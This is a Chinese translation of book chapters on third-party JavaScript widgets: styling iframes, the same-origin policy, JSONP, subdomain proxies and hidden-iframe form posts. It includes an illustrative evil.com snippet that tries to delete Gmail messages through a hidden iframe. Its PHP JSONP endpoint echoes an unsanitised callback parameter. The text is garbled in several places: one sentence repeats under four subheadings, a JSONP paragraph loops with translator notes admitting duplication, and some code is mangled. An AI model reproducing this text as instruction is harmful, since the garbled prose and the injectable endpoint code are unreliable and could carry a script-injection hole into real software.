这段代码看起来很眼熟，因为它在 3.4 中的 `getStyle` 函数。有些样式是由于，源于 Internet Explorer 的私有访问器（`node.currentStyle`）而不同的。该函数需要标准属性名（如 background-color）和驼峰命名版本（如 backgroundColor），在存在差异时，从父元素递归查找样式。

列表 3.7

查找元素样式属性的值



不同的链接

不同字号

图 3.6

有时继承父样式是理想的。如果不继承页面的核心样式，iframe 可能会格格不入。

| |

| :--- |

| 函数需要标准格式属性名和驼峰命名版本 |

| 对于 Internet Explorer，使用其私有访问器 |

| 如果未找到样式（或对于颜色——透明），则向上遍历 DOM |

| 否则返回当前元素的样式 |

www.it-ebooks.info

**73**

### 在 iframe 中嵌入内容

接下来是使用此函数将从发布页面收集的基本样式应用到你的 iframe 中。正如我们之前提到的，对于不带 `src` 的 iframe，这非常简单，因为你可以从主应用程序代码访问 iframe 的属性。列表 3.9 中的代码引入了一个函数 `applyStyles`，它接收从 `getBasicStyles` 返回的样式哈希，并将其应用到文档对象（例如属于你的 iframe 的对象）。

74

## 第3章

### 渲染 HTML 和 CSS

```javascript
function applyStyles(document, styles) {
  var body = document.getElementsByTagName('body')[0];

  for (var property in styles) {
    if (!styles.hasOwnProperty(property))
      return;
    body.style[property] = styles[property];
  }
}

applyStyles(iframe.contentWindow.document, getBasicStyles(container));
```

这个函数非常直观。它遍历样式对象的哈希表，并将它们一个一个应用到给定文档的 `body` 元素上。通过将这些样式放在 iframe 的 `body` 元素上，它们将有效地作为你的 HTML 和 CSS 继承的基础基础样式。太棒了！

现在，如果你正在使用一个托管外部内容的 iframe，情况会变得复杂一些，但并不难。一种方法是将检测到的样式作为加载外部文档的 URL 的一部分。这可以通过将样式哈希转换为查询字符串（query string）或哈希碎片（hash fragment）参数来实现。然后，从运行在外部文档上的 JavaScript 代码从 URL 中提取参数（使用第 2.5 节中的参数传递技术），并使用 `applyStyles` 函数将它们注入到页面中。图 3.7 说明了这一过程。

列表 3.9

对文档的 **body** 元素应用样式规则

- 使用 `getBasicStyles()` 收集来自主文档的样式

- 转换为查询字符串

- 为 iframe 创建完整 URL

- 设置 iframe URL

- iframe

- 将带有查询字符串的 URL 发送到服务器

- iframe 内文档中的客户端代码从查询字符串中提取样式并应用它们。


设置 iframe URL


`font-style:italic;`

`font-size:12;`

`font-style=italic&font-size=12`

`http://widget.com/`

`weather.html?font-style=italic&font-size=12`

Server

Server

图 3.7：从发布者页面将样式传递到外部 iframe

www.it-ebooks.info

75

### 3.4.4 在 iframe 中嵌入内容

#### 什么时候应该避免使用 iframe？

到此时，你可能在想 iframe 是渲染防御性小部件 HTML 和 CSS 的“万灵药药”。在某些方面，它们确实是——iframe 提供了防止冲突样式和脚本的最佳保护。但这种保护是需要付出代价的。有时，在发布者的 DOM 上进行渲染虽然在保持样式一致方面存在重重困难，但更为合适。

#### 避免使用 iframe

什么时候应该避免使用 iframe？

有时，在发布者的 DOM 上渲染虽然在保持样式一致方面存在重重困难，但更为合适。

#### 到 iframe 外部

什么时候应该避免使用 iframe？

有时，在发布者的 DOM 上渲染虽然在保持样式一致方面存在重重困难，但更为合适。

#### 性能最大化

什么时候应该避免使用 iframe？

有时，在发布者的 DOM 上渲染虽然在保持样式一致方面存在重重困难，但更为合适。

#### 最大化定制化

什么时候应该避免使用 iframe？

什么时候应该避免使用 iframe？

有时，在发布者的 DOM 上渲染虽然在保持样式一致方面存在重重困难，但更为合适。

## 与服务器通信

在之前的章节中，你学习了如何在发布者的页面上分发、加载和渲染第三方 JavaScript 应用程序。你有一个非常好的开始，但到目前为止，你的应用程序只能访问嵌入在 JavaScript 文件中的预定义数据。除非你处理的是较小且不变的数据集，否则在某个时刻，你将需要向你的服务器发起动态数据请求。如果你的应用程序正在收集数据（无论是被动收集还是直接通过用户输入收集），你很可能也想将这些数据推送到你的服务器。

让我们回到前两个章节中的 Camera Stork 小部件示例。作为在线领先的相机和相机配件网站，本章将涵盖内容：

- 同源策略（SOP）
- 围绕 SOP 启用跨域消息传递的技术
- 与 SOP 绕过方案相关的安全影响
- 跨源资源共享（CORS）

Camera Stork 的库存非常庞大且不断变化。没有办法将其嵌入单个 JavaScript 文件中。相反，当你知道发布者正尝试渲染哪种产品时，你需要向你的服务器针对该产品发起单独的最新数据请求。此外，当你开始通过小部件收集用户的评分和评论时，你也将希望将这些评分提交到你的服务器。为了实现这一切，你的应用程序必须与你的服务器建立通信通道。构建此类通道是本章及后续章节的主题，我们关于与服务器通信的两部分讨论。

如果你是一位经验丰富的 Web 开发者，你可能会认为将数据从浏览器运行的 JavaScript 发送到你的 Web 服务器是一项简单任务。在普通的 Web 应用程序中，你是正确的。但第三方应用程序几乎总是需要进行所谓的跨域请求：从一个域的 Web 页面发往第二个、独立域的 HTTP 请求。例如，从位于 `publisher.com` 的发布者 Web 页面发起的、向你的服务器（`camerastork.com`）请求产品数据的 HTTP 请求。

这些跨域请求为第三方脚本编写带来了各种麻烦——例如，你无法使用 `XmlHttpRequest`，这是从 JavaScript 发起动态 HTTP 请求的常用工具。相反，你将不得不使用在速度、复杂性和浏览器支持方面各不相同的黑客手段和绕过方案。

在本章中，我们将介绍一组用于将数据发回服务器的初始技术：子域代理、JSONP 和跨源资源共享规范（CORS）。它们在功能能力上各不相同——有些仅适用于子域之间；有些不支持全范围 HTTP 方法——但它们在某些情况下都可以证明自己是实用的。现实世界的第三方应用程序通常会混合使用所有这些技术。

但在开始之前，让我们看看为什么跨域请求是困难的，以及为什么你不能使用老旧的 `XMLHttpRequest`。

### 4.1 AJAX 和浏览器同源策略

假设你正在制作一个可以在单域访问的普通 Web 应用程序。该应用程序部署在一个受控环境中：你确切知道你的代码将在哪里执行，并且所有资源都从同一个域提供。你使用 `XMLHttpRequest` 对象向你的服务器异步发送请求。该对象允许你在不重新加载页面的情况下往返数据，这可以无缝地更新你的 Web 应用程序的组件，并提供平滑的用户体验。

这种体验正是你希望在第三方小部件中获得的。你甚至可以认为，这种体验在第三方世界中更为重要，因为没有人想要安装一个通过将用户重定向离开原始主机来窃取用户的小部件。那么为什么你不能再次使用 `XMLHttpRequest` 呢？

AJAX（异步 JavaScript 和 XML）是一组强大的方法。正因为它如此强大，当被恶意方以不受控的方式使用时，它也可能是危险的。如果没有必要的安全措施，任何随机网站将有权代表你执行可能具有破坏性的操作。例如，如果在不受限制的情况下运行，恶意网站可以将你最喜爱的 Web 邮件应用程序作为隐藏文档加载，抓取你的唯一会话标识符，然后用它对你的数据做极其糟糕的事情。更糟糕的是，应用程序——即受攻击的程序——将不知道那些操作不是由你显式触发的。你的电子邮件账户将再一不复存在（见图 4.1）。

对我们幸运的是，浏览器厂商开发并实施了 Web 客户端可能最重要的安全概念：同源策略（SOP）。SOP 最初引入于 Netscape Navigator 2.0（首次引入 JavaScript 的相同版本），它的核心是确保如果文档从不同的源提供服务，则它们之间是相互隔离的。换句话说，该策略允许不同文档上的脚本访问彼此的 DOM 方法和属性且没有特定限制，仅当它们是从相同的域、端口和 `HTTP` 协议提供的。根据该策略，尝试访问不同源文档中的方法和属性的脚本必须通过一个“友好的”`权限被拒绝 (Permission Denied)`异常来受到警告。

今天，所有浏览器在涉及 `XMLHttpRequest`、`iframes` 以及其他文档间交换消息的方法方面都实现了同源策略。正是由于 SOP，下面的示例在每个主要浏览器中都会因安全异常失败：

```javascript
function evil() {
  mail.contentWindow.GMAIL-deleteAll();
}
// 嵌入在名为“mail”的 iframe 中的 Gmail
// 恶意代码尝试删除你所有的邮件
// evil.com
```

```javascript
var mail = document.createElement('iframe');

mail.src = 'http://gmail.com/';

mail.style.display = 'none';

document.body.appendChild(mail);

mail.contentWindow.deleteAll();
```

图 4.1：由于同源策略，恶意网站无法访问 Gmail 的内容。

在本节中，我们将查看确定同源的规则，以及 SOP 脚本。

#### 4.1.1 确定同源的规则

现在，你知道不同源的文档不能相互“对话”，但使用什么规则来判断两个文档是否共享相同的源？规则很简单：只有当协议、主机和（对于 Internet Explorer）端口号完全匹配时，才允许访问。在所有其他情况下，访问都是禁止的。表 4.1 展示了针对 `http://example.com` 的同源检查结果。

| 源 URL | 结果 | 原因 |
| :--- | :--- | :--- |
| `http://example.com` | 成功 | 协议、域和端口相同（默认端口 80） |
| `http://example.com:8080` | 失败 | 端口不同 |
| `https://example.com` | 失败 | 协议不同（https） |
| `http://sub.example.com` | 失败 | 域不同 |
| `http://google.com/` | 失败 | 域不同 |

**不要忽略端口**

我们见过很多开发者（包括我们自己）忘记 SOP 也会检查端口。例如，从 `thirdpartyjs.com` 到 `thirdpartyjs.com:8080` 的请求将失败。当请求被 SOP 拒绝时，大多数浏览器都不会提供任何有用信息，会让调试变得困难。所以，请不要忘记！

正如表所示，除非恶意方在与目标文档相同域、协议和端口的页面上执行代码，否则他们通常无法做什么。这是一个好消息，但在这种安全感占据主导之前，不要忘记现代浏览器由许多不同的组件组成，并不是所有组件都实现了同源策略。例如，Adobe 的 Flash 浏览器插件并不遵守 SOP，并允许不同文档的 Flash 对象之间进行消息传递。

#### 4.1.2 同源策略和脚本加载

现在，你可能在想：“等一下，我们不是在第 2 章花了一时间学习如何在页面上加载（位于 `camerastork.com` 的）外部 JavaScript 文件吗？”

## AJAX 与浏览器的同源策略

发布者的网站（`publisher.com`）？这难道不会被视为两个不同源之间的 HTTP 请求，并因此根据同源策略被拒绝吗？

同源策略（same-origin policy，简称 SOP）恰好有一个重要的例外：HTML 脚本元素免受 SOP 检查。这一豁免对于现代 Web 至关重要，因为它允许网站从其他源加载 JavaScript 文件。这有许多用途，例如允许网站从高性能内容分发网络（CDN）加载 JavaScript 资源。它也为你——作为第三方 JavaScript 应用程序开发者——提供了一种分发你的应用程序代码的方法。如果没有它，出版者将无法包含你的脚本文件，我们也就没什么书可写。

同样重要的是要意识到，尽管你的代码是从不同的源加载的，但你的代码是在发布者网站的上下文中执行的——并受限于该文档的 SOP 限制。这意味着你的 JavaScript 代码（在发布者页面的上下文中执行）不能向 `camerastork.com` 发起 `XMLHttpRequest`（见图 4.2）。但它能够加载更多的 JavaScript 文件，因为我们已经确定脚本元素免受 SOP 限制。

同源策略是一项极好的安全特性，但在需要合法地在域之间发送数据时（例如使用 `XMLHttpRequest` 访问 Camera Stork 服务器的数据），它确实是一个不小的麻烦。如果我们——第三方应用程序开发者——能够访问一种定义良好且安全的跨域通信方法，那就太好了。

图 4.2：脚本元素请求不受同源策略的影响，而 `XMLHttpRequest` 则不是。

| 元素 |  |
| :--- | :--- |
| 发布者页面 | 下载 HTML 页面。 |
| `widget.com` | 下载第三方脚本。 |
| Web 浏览器 | 这种可能的，因为脚本元素免受 SOP 限制。 |
| 发布者页面 | 无法从发布者页面发起 `XMLHttpRequest`。浏览器将抛出异常。 |
| 第三方代码 | 在发布者上下文中执行 |

## 与服务器通信

幸运的是，在不久前，浏览器厂商看到了这种需求并开发了 API，允许不同源的页面以受控的方式相互通信。我们将在本章中介绍这些方法之一——跨源资源共享（CORS）。¹

但就像大多数新浏览器功能一样，它们在所有浏览器中都没有得到完全支持——CORS 也不例外。因此，你可能需要求助于黑科技（hacks）和变通方法。在接下来的几个章节中，我们将介绍两种允许你绕过同源策略的变通方法：带填充的 JSON（JSONP）和子域名代理。然后在本章末尾，我们将深入介绍 CORS，因为尽管浏览器支持有限，但它是跨域通信的标准化、正确的方法。

### 4.2 带填充的 JSON（JSONP）

带填充的 JSON，简称为 JSONP，是一种使用模式，允许你从 JavaScript 发起跨域 HTTP 请求，同时绕过同源策略的限制。JSONP 术语产生于 2005 年，当时 Bob Ippolito 写了一篇博客文章²，提出“一种新的、与技术无关的标准方法，用于通过脚本标签方法进行跨域数据获取”。从那时起，它被全球 Web 领域的开发者广泛采用。流行的 JavaScript 库（如 jQuery）内置了 JSONP 支持，许多流行的 Web 服务 API（如 Twitter、Google 到底还有 Disqus）也支持 JSONP 响应。

在本节中，我们将向你展示如何使用 JSONP 绕过 SOP 并跨域发起类似 AJAX 的请求。最后，我们将向你介绍一些 JSONP 的局限性和缺点。

#### 4.2.1 通过脚本元素加载 JSON

正如你所学到的，同源策略有一个重大的例外：HTML 脚本元素免受 SOP 检查。这意味着你的第三方应用程序代码可以自由加载外部 JavaScript 文件来向其他源发起 HTTP 请求。JSONP 利用这一例外从不同域加载数据。

为了理解 JSONP 的工作原理，让我们先看一个使用 `XMLHttpRequest` 获取普通 JSON 文档的示例。假设你正在向 `http://thirdpartyjs.com/info.json` 发起 `XMLHttpRequest`，该请求返回一个包含你当前正在阅读的书籍关键信息的 JSON 文档：

```json
{
  "title": "Third-party JavaScript",
  "authors": ["Anton", "Ben"],
  "publisher": "Manning"
}
```


¹ 另一种方法`window.postMessage`我们将在第 5 章中介绍。  
² 关于 Bob 在 2005 年 12 月 5 日对远程 JSON（JSONP）的讨论，请参见`http://bob.pythonmac.org/archives/2005/12/05/remote-json-jsonp/`。

浏览器接收到的此响应是一个字符串。为了使其有用，它必须被转换为 JavaScript 对象。这可以使用浏览器的原生`JSON.parse`函数完成，或者在原生对象不可用（旧版浏览器）时使用其他库方法。

当然，由于同源策略，`XMLHttpRequest`只能在同域内工作。但正如我们之前提到的，你可以使用`<script>`元素请求此 URL，它是不受 SOP 限制的：

```html
<script src="http://thirdpartyjs.com/info.json"></script>
```

通过`<script>`元素请求此资源，浏览器将在文件加载后立即将响应求值为 JavaScript。然后你就可以随心所欲地使用响应数据了，对吧？并不如此。由于我们已经确定脚本元素免受 SOP 限制，浏览器将在文件加载后立即将响应求值为 JavaScript。然后你就可以随心所欲地使用响应数据了，对吧？并不如此。由于我们已经确定脚本元素免受 SOP 限制，浏览器将在文件加载后立即将响应求值为 JavaScript。然后你就可以随心所欲地使用响应数据了，对吧？并不如此。

（注：此处原文似乎存在重复内容，翻译已按逻辑处理）

……并不如此。

……实际上**不是**有效的 JavaScript。

（注：此处由于原始文本存在重复，翻译已根据上下文进行了连贯性处理）

这种方法通过`<script>`元素加载 JSON 的最大缺点是，这些方法假设应用程序已经知道了全局变量或回调函数的名称。这就是 JSONP 的用武之地。这要求回调函数`jsonHandler`在`<script>`元素加载之前已经在全局上下文中定义。

……并不如此。由于我们已经确定脚本元素免受 SOP 限制，浏览器将在文件加载后立即将响应求值为 JavaScript。然后你就可以随心所欲地使用响应数据了，对吧？并不如此。

（注：由于原文中存在大量重复的句子，以上翻译在保持核心逻辑的基础上，剔除了冗余部分。）

## 85

### 带填充的 JSON（JSONP）

```php
<?php

header("Content-type: application/javascript");

$callback = $_GET['callback'];

$book = json_encode(array(
  'title' => 'Third-party JavaScript',
  'authors' => array('Anton', 'Ben'),
  'publisher' => 'Manning'
), JSON_PRETTY_PRINT);

echo "$callback($book);";

?>
```

如果你还不清楚 JSONP 是如何工作的，请查看图 4.3，它将带你了解一个典型的 JSONP 请求涉及的步骤，从生成回调和发送请求，到执行该回调并解析生成的响应。

**列表 4.2**

**在服务器上生成 JSONP 响应**

| 从查询字符串中获取回调名称 | 将输出数组编码为 JSON | 输出 JavaScript 响应 |
| :--- | :--- | :--- |
| | | 响应：`jsonHandler({...})` |

**Web 浏览器**

- 生成回调
- 解析 JSON 响应
- 执行回调

**请求**

- 发送请求`http://example.com`

- 生成一个 JSON 编码的结构
- 使用特殊填充封装该结构

**Web 服务器**

**图 4.3**

典型的 JSONP 请求-响应交换

www.it-ebooks.info

## 86

# 第 4 章：与服务器通信

最后一点：列表 4.1 中的早期示例代码始终使用`jsonpCallback`作为回调函数的名称：

```javascript
script.src = 'http://thirdpartyjs.com/info.js?callback=jsonpCallback';
```

在现实世界的应用中，你应该为每个 JSONP 请求生成一个新的、唯一的回调函数名称，可以使用随机值、时间戳或递增 ID。这可以防止与其他并发的 JSONP 请求发生潜在的冲突。大多数最流行的 AJAX 库（包括 jQuery）已经包含了用于发送 JSONP 请求的函数，它们会为你生成唯一的回调函数。

## 4.2.3 局限性与安全考量

JSONP 是一种非常简单的技术，掌握了 4.2 节中的示例后，你就拥有了使用它所需的一切。尽管它非常强大，但它并不是解决你所有跨域需求的万灵药。让它变得如此简单且强大的技巧（`<script>`元素注入）也是导致其所有局限性和安全问题的根源。

首先，JSONP 仅适用于 GET HTTP 请求。正如你无法使用 POST、PUT 或 DELETE 请求方法加载 JavaScript 文件一样，JSONP 也是如此。限制于 GET 请求意味着许多局限性。首先，你可以提交到服务器的数据量受浏览器最大 URL 大小的限制（在 Internet Explorer 中仅为 2,083 个字符；参见`http://support.microsoft.com/kb/208427`）。此外，你无法使用多部分表单（multipart forms）上传文件。它还让与使用不同 HTTP 请求来识别 API 的 RESTful API 变得困难。如果你正在实现这样的 API，你可能需要实现特殊的仅限 GET 端点来配合你的 JSONP 请求。

### JSONP 和其他响应格式

在技术上，可以使用 JSONP 支持 JSON 之外的响应格式。例如，你的 JSONP 端点也可以改为返回一个包含 XML 字符串的响应：

```javascript
jsonpCallback(
  '<?xml version="1.0" encoding="UTF-8" ?>' +
  '<response>' +
  '<title>Third-party JavaScript</title>' +
  '<author>Anton</author>' +
  '<author>Ben</author>' +
  '<publisher>Manning</publisher>' +
  '</response>'
);
```

你的应用程序代码随后需要获取此 XML 字符串并对其进行反序列化，才能变得有用。但这有点愚蠢——JSONP 的正常形式已经返回了一个 JavaScript 对象，因此通过使用中间格式，你只是在给自己增加工作量。

www.it-ebooks.info

## 87

### 带填充的 JSON（JSONP）

此外，JSONP 缺乏错误处理。如果脚本成功注入，你的回调会被调用；但如果没有成功，则什么都不会发生。这意味着你无法检测到 JSONP 请求以 404、500 或任何其他服务器错误结束的情况。你所做的做法是在给定的超时时间内没有收到响应（例如 10 秒）后假设请求已失败，并启动你自己的错误回调。

## 不要对不可信的第三方使用 JSONP

在添加对 JSONP 的支持时必须小心，因为初级的实现可能会引发严重的安全漏洞。从远程站点加载脚本标签允许它们向网站注入任何内容，因此你是在隐式地信任对方。

除非你完全信任该对方，否则你不应该使用 JSONP 与第三方通信。

在安全方面，JSONP 开启了跨站请求伪造（CSRF）攻击的可能性。CSRF 攻击发生在恶意网站导致访问者的浏览器向你的服务器发送请求，从而导致服务器发生更改的情况。服务器认为，因为请求带有用户的 Cookie，所以用户是想要提交该表单或发出该请求。通过 CSRF 攻击，恶意方可以更改。

## 89

# 子域名代理

### 4.3.1 使用`document.domain`更改文档源

首先，如何更改文档的源？每个 DOM 核心文档对象都有一个名为`domain`的属性。默认情况下，它包含当前源的主机部分。你可以通过给此属性赋新值来更改当前文档的源。例如，为了让托管在`sub.example.com`上的页面将其源改为`example.com`，你需要让该页面执行以下 JavaScript：

```javascript
document.domain = 'example.com';
```

| Web 浏览器 | publisher.com | publisher.com | publisher.com | thirdparty.com |
| :--- | :--- | :--- | :--- | :--- |
| | 虚拟服务器将请求转发给真实的`thirdparty.com` | 位于`publisher.com`的虚拟主机 | 返回数据 | 浏览器认为数据来自`publisher.com`！ |
| 页面上的脚本从`thirdparty.publisher.com`请求数据 | 浏览器从`publisher.com`请求页面 | `thirdparty.com` | Web 浏览器 | Web 浏览器 |

**图 4.4：**使用虚拟主机向`thirdparty.com`代理请求到`thirdparty.publisher.com`，向浏览器隐藏真实的源

www.it-ebooks.info

## 90

# 第 4 章：与服务器通信

你每个页面只能对`document.domain`的值更改一次。由于这个原因，最好在文档的早期更改它（例如在`<head>`中），在任何其他代码运行之前。如果你在页面的后部设置此值，可能会导致意料之外的行为，即某些代码认为它有一个`document.domain`值，而另一些代码认为有另一个值。

推测，在你进行此更改后，SOP（同源策略）将不再阻止托管在`example.com`上的文档与位于`sub.example.com`的此文档通信。但它仍然会被拦截。还剩一步：`example.com`上的另一个通信文档也需要加入相同的域名后缀。下面的列表显示了两个页面都加入了相同的域名后缀。

```html
<!DOCTYPE html>
<html>
<script>
document.domain = 'example.com';
</script>
</html>

<!DOCTYPE html>
<html>
<script>
document.domain = 'example.com';
</script>
</html>
```

你可能在奇怪为什么`example.com`上的页面需要将它的`document.domain`属性设置为与之前相同的值。这是由于浏览器的一种限制，该限制防止了特定的安全漏洞。考虑以下情况：Google 现在允许你在`profiles.google.com/<你的名字>`发布你的个人资料。假设某天他们允许用户安装自定义的第三方 JavaScript 小组件，其中一个恶意小组件决定将页面源更改为`google.com`。现在，如果没有要求双方都显式加入相同域名后缀的限制，恶意小组件就可以访问托管在`google.com`上的任何 Google 站点，并代表用户访问其属性。浏览器厂商（正确地）将此视为安全漏洞，因此要求双方都显式地声明自己的意图。

## 更改`DOCUMENT.DOMAIN`将源的端口重置为 80

如果你在任何非标准端口（例如 8080）上托管你的网站，你应该注意，更改页面上的`document.domain`属性会将源的端口值重置为 80。这可能导致 AJAX 请求失败，因为浏览器会认为你正尝试从端口 80 向原始的非标准端口发送请求，从而导致 SOP 检查失败。

现在你已经知道如何让两个 Web 页面加入同一个源，让我们看看如何利用这一点向不同的子域名发送数据。

**列表 4.3：**两个网站加入同一源空间的示例

**example.com 上的页面**

**thirdparty.example.com 上的页面**

www.it-ebooks.info

## 91

# 子域名代理

### 4.3.2 使用子域名代理进行跨源通信

让我们回到那个被暂时忘记的 Camera Stork 产品小组件。当我们离开它时，我们正尝试从服务器动态地请求产品数据，以便在发布者的页面上渲染产品。假设 Camera Stork 网站有一个位于`http://camerastork.com/api/products`的 API 端点，该端点返回给定产品 ID 的序列化 JSON 数据。为你的第三方应用程序编写一个函数，从该 URL 请求数据。列表 4.4 中的函数将使用 jQuery 的 AJAX 辅助函数`jQuery.ajax`，因为你不想再编写和维护另一个`XMLHttpRequest`库。

```javascript
function getProductData(id) {
  jQuery.ajax({
    type: "GET",
    url: "http://camerastork.com/api/products/",
    data: { product: id },
    success: function (data) {
      renderWidget(data);
    }
  });
}
```

你现在可能已经很清楚，从发布者的页面向你自己的服务器尝试此 AJAX 请求将由于同源策略而惨遭失败。但可以使用子域名代理来绕过这一点。

假设你的小组件代码执行在位于`www.publisher.com`的发布者网站上。你已让他们创建一个新的子域名`stork.publisher.com`，它指向你在`camerastork.com`上的服务器。这意味着你的 API 端点通过`http://stork.publisher.com/api/products`可用。现在，尽管这与发布者的页面处于同一域名空间，但第三方脚本无法直接请求。这是因为双方必须加入相同的域名。这就是为什么你需要一个中间隧道文件。

## 隧道文件

为了解决这个问题，发布者需要托管在`www.publisher.com`上的页面加入它们自己的同级域名（`publisher.com`）。你可以从小组件代码中这样做，但最好在页面源代码的早期更改`document.domain`：

```html
<!DOCTYPE html>
<html>
<script>
document.domain = 'publisher.com';
</script>
</html>
```

是的，第三方脚本可以自己设置`document.domain`，但正如我们之前提到的，最好尽可能在页面加载早期就设置它。设置得太晚会导致许多未定义和错误行为，最好予以避免。

接下来是发起请求。列表 4.5 中的代码修改了`getProductData`函数，将代理页面加载到隐藏的`iframe`中，并从代理的全局窗口对象获取`jQuery.ajax`方法的引用。该对象可以通过特殊的`contentWindow`属性从父窗口访问。

```javascript
function getProductData(id) {
  var iframe = document.createElement('iframe');

  iframe.src = 'http://stork.publisher.com/proxy.html';

  iframe.onload = function() {
    iframe.contentWindow.jQuery.ajax({
      method: 'GET',
      url: 'http://stork.publisher.com/products',
      data: { product: id },
      success: function() {
        /* 渲染小组件 */
      }
    });
  };

  document.getElementsByTagName('head')[0].appendChild(iframe);
}
```

现在你可以放松并享受从第三方脚本与你的服务器通信的能力了。这种特定的实现每次调用`getProductData`都会创建一个新的`iframe`，但可以通过在调用之间预存`iframe`对象轻松解决。

**图 4.5：**加载隧道文件并获取`jQuery.ajax`的句柄

| Web 浏览器 | iframe | 隧道 | 隧道 | iframe |
| :--- | :--- | :--- | :--- | :--- |
| | | | | |
| | | | | |

**图 4.4：**从 Camera Stork 网站获取产品信息

www.it-ebooks.info

## 116 / 92

# 第 4 章：与服务器通信

### 4.3.3 将子域代理结合 JSONP

除了子域代理明显的缺点（需要发布者配置子域）之外，这种实现还有一个细微的缺点：它在进行跨域请求之前需要加载中间页面。但值得注意的是，子域代理的一种变体不需要中间页面，它使用了你在 4.2 节中学到的 JSONP 概念。

这种技术通过使用`<form>`元素而不是`HttpRequest`来工作。当表单提交时，它们会将子参数传递给服务器，响应会在当前浏览器窗口中加载。你可以使用 JavaScript 动态生成并提交这些表单。

```javascript


`var form = document.createElement("form");`

`form.action = "http://camerastork.com/products/1234/reviews";`

`form.method = "POST";`

`var score = document.createElement("input");`

`score.name = "score";`

`score.value = "5";`

`var message = document.createElement("input");`

`message.name = "message";`

`message.value = "我的狗拍得很棒。推荐。";`

`form.appendChild(score);`

`form.appendChild(message);`

`document.body.appendChild(form);`

`document.body.appendChild(form);`

`form.submit();`

`document.body.removeChild(form);`

使用 JavaScript 生成并提交表单非常简单。创建一个新的表单元素，附加必要的表单输入元素，然后提交表单。提交后，你只需要通过从 DOM 树中删除表单元素来清理。

## 在 Internet Explorer 7 及更高版本中设置 name 属性

你可能已经我们在示例 4.6 中为输入元素设置了 `name` 属性。遗憾的是，旧版本的 Internet Explorer 禁止在通过 `createElement` 方法创建的元素上设置该属性。为了绕过此限制，你必须使用微软特有的 `createElement` 调用：

```javascript
var input = document.createElement('<input name="score"/>');
```

**示例 4.6：通过 JavaScript 创建并提交 HTML 表单**

| 步骤 | 描述 |
| :--- | :--- |
| 创建表单元素 | 用于包含输入元素 |
| 创建输入元素 | 用于存储分值 |
| 创建输入元素 | 用于包含评论 |
| 将表单和输入元素添加到 DOM | 然后提交 |
| 完成后清理 | 不要让 DOM 留下孤立元素！ |

## 子域代理

存在一个关键问题。如果你尝试运行这段代码，你会发现页面已经重新加载，并且现在指向了表单 `action` 中的 URL（见图 4.6）。这是提交 HTML 表单时的正常行为，但正常行为并不是我们想要的；我们希望在不改变浏览器 URL 的情况下提交表单。

### 目标指向 iframe 的表单

幸运的是，HTML 中的表单有一个名为 `target` 的特殊属性，你可以用它让表单将其响应加载到特定的窗口对象（包括 iframe）。当响应加载到 iframe 中时，当前页面 URL 将保持不变。所以，正如你可能已经猜到的，你需要修改代码，首先创建一个隐藏的 iframe，并让创建的表单指向它。

```javascript
var frame = document.createElement("iframe");
frame.name = "post-review";
frame.style.display = "none";
var form = document.createElement("form");
form.action = "http://camerastork.com/products/1234/reviews/";
form.method = "POST";
form.target = "post-review";
var score = document.createElement("input");
score.name = "score";
score.value = "5";
var message = document.createElement("input");
message.name = "message";
message.value = "我的狗拍得很棒。推荐。";
form.appendChild(score);
form.appendChild(message);
document.body.appendChild(frame);
document.body.appendChild(form);
form.submit();
document.body.removeChild(form);
document.body.removeChild(frame);
```

**示例 4.7：提交到隐藏 iframe 的 HTML 表单**

图 4.6：直接提交表单会导致表单响应加载到父窗口中。因为这会重定向离开发布者的页面，所以这种行为是不理想的。

现在代码会将你的表单提交到 iframe 中，而无需重新加载宿主机页面（见图 4.7）。

## Internet Explorer 与子域代理

当然，当你处理 Internet Explorer 时，事情并不如想象中那么简单。IE8 有一个奇怪的 Bug，阻止了顶级域名与其子域进行通信，即使它们都加入了同一个域名命名空间。假设你有两个页面——托管在 `example.com` 和 `sub.example.com` 上——后者在 iframe 中打开了前者。你还希望被嵌入的页面通过使用 `window.parent.callback()` 调用回调函数与父页面通信。

以下是托管在 `sub.example.com` 的页面 HTML：

```html
<!DOCTYPE html>
<html>
<head>
<script>
document.domain = 'example.com';
function callback() { /* ... */ }
</script>
</head>
<body>
<iframe src="http://example.com/"></iframe>
</body>
</html>
```

以及托管在 `example.com` 的页面 HTML：

```html
<!DOCTYPE html>
<html>
<script>
document.domain = 'example.com';
window.parent.callback();
</script>
</html>
```


**98**

## 第 4 章

### 与服务器通信

这段代码在 Chrome、Firefox、Opera 和 Internet Explorer 9 中运行良好。但当子页面尝试与父页面通信时，IE8 会抛出“拒绝访问”（Permission Denied）错误。在子页面中移除 `document.domain` 部分并不能解决问题，而且也没有意义，因为双方都必须选择加入同源才能进行通信。问题在于 Internet Explorer 8 存在一个浏览器漏洞，阻止了顶层域名与其子域进行通信。遗憾的是，在微软修复它之前，目前没有已知的替代方案。

这意味着什么？为了支持 IE8，子域代理对于那些*也*通过子域服务的发布者网站来说是可行的。这通常不是问题；许多网站通过标准的 `www` 子域（`www.publisher.com`）提供服务。如果不是这样，它们也可以通过更新 DNS 记录轻松开始使用 `www` 子域。尽管如此，这是另一种子域代理需要发布者配合才能有效工作的情况。

### 4.3.5 安全影响

撇开 Internet Explorer 的漏洞不谈，子域代理是有用的。如果它们没有在你的第三方脚本中找到用例，你可能会在其他地方以某种形式使用它们。在使用子域代理时，你必须始终记住与之相关的安全问题。

首先，`document.domain` 属性可能是安全漏洞的根源。当任何两个合法子域（例如 `status.example.com` 和 `auth.example.com`）加入同一个域名命名空间时，从该域名提供的任何其他资源都可以将它们的 `document.domain` 属性设置为 `example.com`，并获取合法子域的属性和方法。因此，如果你在 `pages.example.com` 上托管了用户页面，且可以运行任意 JavaScript 代码，那么将任何其他子域加入顶层命名空间并不是好主意，因为这些用户代码可能会访问它们。

此外，`document.domain` 的行为规范并不完善。例如，对于 `document.domain` 如何处理像 `.com` 或 `.org` 这样的顶层域名，或者对于通过 IP 地址访问的应该应该有什么行为，并没有统一的规则。曾几何时，浏览器暴露了一个巨大的安全漏洞，允许本地保存的文件（`file://`）访问磁盘或网络上的所有文件。幸运的是，这种行为已被修复，但它是由规范不当导致安全漏洞的良佳示例。

#### 谷歌浏览器安全手册

如果你对学习更多关于同源策略及其相关安全风险感兴趣，你会想要阅读谷歌的《浏览器安全手册》第 2 部分（`http://code.google.com/p/browsersec/wiki/Part2`）。这篇文章是一个非常好的资源，遗憾的是，并没有很多人知道它。

我们刚刚查看了启用跨域请求的一种方法，尽管它只在很窄的场景下有效——即所有参与方共享相同的更高级域名——但你偶尔可能会发现它很有用。在使用它时，你应该始终意识到其安全风险，并在实际实现中要小心。

**99**

### 4.4 跨源资源共享

